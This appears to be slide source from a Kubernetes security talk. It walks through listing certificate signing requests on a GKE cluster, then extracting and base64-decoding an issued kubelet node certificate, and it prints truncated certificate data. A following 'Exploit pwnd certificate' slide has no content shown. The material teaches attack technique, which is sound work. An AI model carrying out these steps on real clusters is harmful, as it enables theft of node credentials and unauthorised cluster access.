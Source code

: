 
### Describe CSR
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: 3]

```yaml
  root@hckd# khack get csr
  NAME            SIGNERNAME                    REQUESTOR                      CONDITION
# node-csr-CW2... kubernetes.io/kube-apiserv... kubelet                        Approved,Issued
  csr-rr7rg       kubernetes.io/kubelet-serving system:node:gke-cluster-1-...  Approved,Issued
```

[.code-highlight: all]
[.code-highlight: 5-10]
```yaml
  root@hckd# khack get csr node-csr-CW2... -o yaml
  apiVersion: certificates.k8s.io/v1beta1
  kind: CertificateSigningRequest
  ....
  status:
    certificate: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUNWVENDQVQyZ0F3SUJBZ0l
    SQVAyanRSY3JidUtEYjVSUGN5eHlsNEV3RFFZSktvWklodmNOQVFFTEJRQXcKTHpFdE1Dc0dBMVV
    FQXhNa00yVTVNV00yT1RjdE9HWXpPUzAwTkRRMUxXRXpNR1V0WkRrd1lqUTJNV1JtTURVeApNQjR
    YRFRFNE1URXlPVEUzTURNeE0xb1hEVEl6TVRFeU9ERTNNRE14TTFvd1ZqRVZNQk1HQTFVRUNoTU1
    jM2x6CmRHVnRPbTV2WkdWek1UMHdPd1lEVlFRREV6UnplWE4wWlcwNmJtOWtaVHBuYTJVdFkyeDF
    ....
```

---

### Decode & access csr
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: 1-4]
[.code-highlight: 7-14]

```coffeescript
root@hckd# khack get csr node-csr-CW2...        \
      -o jsonpath='{.status.certificate}'       \
      | base64 -d >                             \
      node.crt



root@hckd# cat node.crt
-----BEGIN CERTIFICATE-----
MIIDGjCCAYKgAwIBAgIQQavGj5hqouyM49FHxtCWzDANBgkqhkiG9w0BAQsFADAv                  
MS0wKwYDVQQDEyQyYzFiZmIwYi00ZWZiLTRmZGYtYTk0ZS02OTFkOGZkOGFhOGQw
HhcNMjExMTI0MDQ1ODI5WhcNMjYxMTIzMDQ1ODI5WjBWMRUwEwYDVQQKEwxzeXN0
ZW06bm9kZXMxPTA7BgNVBAMTNHN5c3RlbTpub2RlOmdrZS1jbHVzdGVyLTEtZGVm
....
```

---
### Exploit pwnd certificate
[.code-highlight: 1-2]
[.code-highlight: 4-9]
[.code-highlight: 5]

